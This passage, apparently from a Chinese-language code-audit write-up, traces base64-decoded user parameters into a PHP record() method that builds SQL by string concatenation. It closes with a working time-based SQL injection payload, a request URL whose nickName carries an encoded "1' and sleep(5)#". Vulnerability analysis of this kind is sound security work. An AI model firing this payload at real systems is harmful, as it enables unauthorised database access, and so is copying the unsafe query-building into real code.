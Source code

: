 可以看到该方法通过 base64 解密`nickName`和`avatarUrl`参数，构建了 uarr 数组，并且传入到$db->record()，感觉这个函数应该会做数据库查询，跟进看看

```php
public function record($arr, $where='')
{
    return $this->db->record($this->table, $arr, $where);
}
```

其实是调用了 mysql.php 的 record 方法

```php
public function record($table,$array,$where='')
{
   $addbool   = true;
   if(!$this->isempt($where))$addbool=false;
   $cont     = '';
   if(is_array($array)){
      foreach($array as $key=>$val){
         $cont.=",`$key`=".$this->toaddval($val)."";
      }
      $cont  = substr($cont,1);
   }else{
      $cont  = $array;
   }
   $table = $this->gettables($table);
   if($addbool){
      $sql="insert into $table set $cont";
   }else{
      $where = $this->getwhere($where);
      $sql="update $table set $cont where $where";
   }
   return $this->tranbegin($sql);
}
```

将数组键值对依次插入 SQL 语句插入或是更新数据，我们调用该方法最后的 sql 语句为

```sql
insert into $table set $key = $value ... where `openid`=xxx;   //这里的$value变量即我们传入的$nickName参数值
```

于是我们构造 payload 为

```php
/index.php?m=openxxx|openapi&d=xxx&a=data&ajaxbool=0&nickName=MScgYW5kIHNsZWVwKDUpIw==

nickName为编码后的1' and sleep(5)#
```
